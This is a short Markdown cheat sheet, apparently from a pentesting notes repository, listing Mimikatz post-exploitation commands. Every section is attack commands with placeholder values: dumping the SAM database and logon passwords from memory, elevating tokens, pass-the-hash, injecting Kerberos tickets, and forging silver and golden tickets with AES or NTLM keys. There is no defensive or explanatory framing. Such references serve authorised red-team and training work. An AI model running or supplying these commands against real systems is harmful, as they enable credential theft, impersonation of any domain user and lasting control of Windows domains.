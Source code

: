 Mimikatz

# Mimikatz

Post exploitation commands must be executed from SYSTEM level privileges.
- mimikatz # privilege::debug
- mimikatz # token::whoami
- mimikatz # token::elevate
- mimikatz # lsadump::sam
- mimikatz # sekurlsa::logonpasswords

## Pass The Hash

- mimikatz # sekurlsa::pth /user:username /domain:domain.tld /ntlm:ntlm_hash

## Inject generated TGS key

- mimikatz # kerberos::ptt <ticket_kirbi_file>

## Generating a silver ticket 

AES 256 Key:

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

AES 128 Key:

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

NTLM:

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>


## Generating a Golden Ticket

AES 256 Key:

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name>

AES 128 Key: 

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name>

NTLM:

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name>





